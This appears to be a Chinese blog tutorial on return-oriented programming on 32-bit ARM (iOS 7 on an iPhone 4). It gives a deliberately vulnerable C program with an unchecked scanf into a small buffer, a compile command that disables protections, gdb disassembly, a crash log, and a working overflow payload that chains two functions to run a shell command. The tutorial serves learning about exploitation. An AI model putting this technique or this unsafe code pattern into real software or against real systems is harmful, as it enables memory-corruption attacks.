

### 概述

本文主要是通过简单的实验来弄清楚ROP Exploit的一些基本原理。不正之处欢迎指正。

简单回顾下上一篇[ARM环境下的漏洞利用](http://madmark.cc/2017/11/11/ARM_Exploitation_intro/)的关键知识点：

通过运行程序后输入一个指定格式的字符串，利用某些函数不检查字符串长度的缺陷，栈溢出后覆盖到函数入口push到栈上的`PC`值。所以该值`pop`回`PC`的时候，读取到了你输入的字符串中的值。将目标函数入口地址替换到你输入字符串中的指定位置，使`PC`读取该目标函数入口地址即可实现非正常跳转。

但是通常不太可能只是简单的跳转到一个指定函数，而是需要跳转多个函数来达到漏洞利用的目的。即跳转A再跳转B再跳转C等等。如何实现呢？我们已经能跳转到一个函数，如何在这个函数中使`PC`包含其他函数入口的地址呢？

**实验环境：**`iPhone4`	`iOS7.1.2`

### 一个有漏洞的程序

先打造一个存在漏洞的程序，这个程序有两个我们可以利用的函数`change`和`secret`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char command[] = "date";

void change() {
	strcpy(command, "ls");
	printf("command changed.\n");
}

void secret() {
	printf ("executing command ...\n");
	system(command);
}

int main() {
	
	printf("Welcome to ROPLevel 1 for ARM!\n");
	char buff[12];
	scanf("%s", buff);
	
	return 0;
}

```

**编译的时候仍然需要关掉thumb模式和一些保护特性。**

``` 
# clang roplevel1.c -isysroot /var/iPhoneOS8.1.sdk/ -mno-thumb -fno-pie -fno-stack-protector -o roplevel1
```

仍旧是利用了`scanf`函数的缺陷。`change`和`secret`两个函数按理不会被执行到。我们的目的，就是在输入字符串后，先执行`change`函数，将`command`替换为`ls`，随后执行`secret`函数来通过`system()`函数执行命令。

###原理探究

跳转到`change`函数我们已经可以做到了，关键是跳转到`secret`。那么问题就变成执行完`change`函数时如何改变`PC`寄存器的值，使它替换成`secret`函数的入口地址。函数的结尾一定是通过`pop`来将值推入`PC`，执行到这步之前，栈上只有函数入口处保存的`r7`和`PC`，也就是要改变入栈时候的`PC`的值！

那么，首先我们在跳转到`change`函数的时候，不让它执行`push {r7, PC}`的操作，然后在栈上存放一个`r7`（可以是随意的值）和一个`secret`的函数地址，使这个函数在`pop {r7, PC}`后，`PC`中的值是`secret`函数地址。

**理一下思路：**

1. 解决不执行`change`函数入口的`push`。我们可以在跳转到`change`函数的时候直接使用该函数的第二条指令的地址。这样不会影响程序的执行，只是会影响函数的返回。

2. 栈上需要两个分别`pop`回`r7`和`PC`的值。这个我们可以在输入的字符串中设置。因为栈上的数据每次读取都是4个字节，我们输入的字符串溢出的长度只要刚好覆盖到栈上两个4字节的数据即可。

一图胜千言（随便画的），最终我们输入的字符串要满足这样的条件：



当输入完字符串buff溢出后，将会执行`pop {r7, lr}`，这样就会把`change`的第二条指令地址（图上`change().addr`即指第二条指令）和garbage弹回`r7`和`lr`。`change`函数执行到最后也会有个pop的动作，此时，栈上的`secret`地址会被弹回到`lr`中（至于`r7`会被弹入什么我们暂且不关心），这样就达到了我们的目的: main -> change ->secret

### 实验

1. 通过GDB找到两个函数的入口地址，记得`change`函数需要用到的是第二条指令的地址：

 ```
 (gdb) disassemble secret
Dump of assembler code for function secret:
0x0000be94 <secret+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be98 <secret+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be9c <secret+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000bea0 <secret+12>:  91 0f 0b e3                   movw	r0, #49041	; 0xbf91
0x0000bea4 <secret+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000bea8 <secret+20>:  51 00 00 eb                   bl	0xbff4
0x0000beac <secret+24>:  30 10 0c e3                   movw	r1, #49200	; 0xc030
0x0000beb0 <secret+28>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000beb4 <secret+32>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000beb8 <secret+36>:  01 00 a0 e1                   mov	r0, r1
0x0000bebc <secret+40>:  4e 00 00 eb                   bl	0xbffc
0x0000bec0 <secret+44>:  00 00 8d e5                   str	r0, [sp]
0x0000bec4 <secret+48>:  07 d0 a0 e1                   mov	sp, r7
0x0000bec8 <secret+52>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) disassemble change
Dump of assembler code for function change:
0x0000be50 <change+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be54 <change+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be58 <change+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000be5c <change+12>:  30 00 0c e3                   movw	r0, #49200	; 0xc030
0x0000be60 <change+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000be64 <change+20>:  7c 1f 0b e3                   movw	r1, #49020	; 0xbf7c
0x0000be68 <change+24>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be6c <change+28>:  05 20 00 e3                   movw	r2, #5	; 0x5
0x0000be70 <change+32>:  5d 00 00 eb                   bl	0xbfec
0x0000be74 <change+36>:  7f 1f 0b e3                   movw	r1, #49023	; 0xbf7f
0x0000be78 <change+40>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be7c <change+44>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000be80 <change+48>:  01 00 a0 e1                   mov	r0, r1
0x0000be84 <change+52>:  5a 00 00 eb                   bl	0xbff4
0x0000be88 <change+56>:  00 00 8d e5                   str	r0, [sp]
0x0000be8c <change+60>:  07 d0 a0 e1                   mov	sp, r7
0x0000be90 <change+64>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) q
 ```
OK，两个地址分别是`0x0000be94`和`0x0000be54`

2. 定制攻击字符串进行Exploit
字符串的定制，可以先和上一篇一样，输入类似`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH`来尝试，崩溃后查看CrashReporter中的信息来确定哪几个字符被`pop`回`PC`了。

```
Date/Time:           2017-12-03 23:31:50.416 +0800
OS Version:          iOS 7.1.2 (11D257)
Report Version:      104

Exception Type:  EXC_BAD_ACCESS (SIGSEGV)
Exception Subtype: KERN_INVALID_ADDRESS at 0x46464646
Highlighted Thread:  0

Backtrace not available

Unknown thread crashed with ARM Thread State (32-bit):
    r0: 0x00000000    r1: 0x00000000      r2: 0x00000100      r3: 0x00002060
    r4: 0x00000000    r5: 0x00000000      r6: 0x00000000      r7: 0x45454545
    r8: 0x27dff888    r9: 0x00000001     r10: 0x00000000     r11: 0x00000000
    ip: 0x3d834bd8    sp: 0x27dff888      lr: 0x0000bf08      pc: 0x46464646
  cpsr: 0x40000010
```
可以看到，弹回`PC`的值是`0x46464646`也就是字符`FFFF`。所以只要替换掉`FFFF`就可以，后面紧跟一个4字节的任意字符，我们就用0x41414141，再跟一个`secret`函数地址。最终的字符串是这样的：
`AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00`。因为是小端(little endian)的关系，地址都是逆向输入的。最后，使用`printf`灌入字符串，执行程序。

```
Jins:~/Code root# printf "AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00" | ./roplevel1
Welcome to ROPLevel 1 for ARM!
command changed.
executing command ...
hello  hello.c	roplevel1  roplevel1.c	vuln  vuln.c
Bus error: 10
Jins:~/Code root#

```
可以看到`ls`命令执行了。至此，我们的实验已经成功了。

### 总结

简单来说，这个ROP实验就是通过栈溢出，将跳转地址覆盖到栈上保存的函数返回地址后达到非正常跳转的目的。

在真实的情况下不会没这么简单，一般都需要连接好几个函数，还需要做栈修复之类的工作，可以看到实验最后还是报错退出来，正常来说应该要使程序正常执行。这篇主要是讲ROP的工作原理，所以暂时不涉及其他的。

最后一点是关于写文章的心得。自己看书跟着做实验的时候觉得自己已经明白了，但一写文章，需要理清思路的时候就会发现很多细节之前其实都没想明白。写完就觉得整个思路清晰不少，收获更是不少！

### 参考

[BillyEllis's blog](http://billyellis.net)

另外我还推荐这个博客作者[@bellis1000](https://twitter.com/bellis1000)前段时间出的一本书，书名及链接:[《Beginner's Guide to Exploitation on ARM》](http://zygosec.com/Products/)
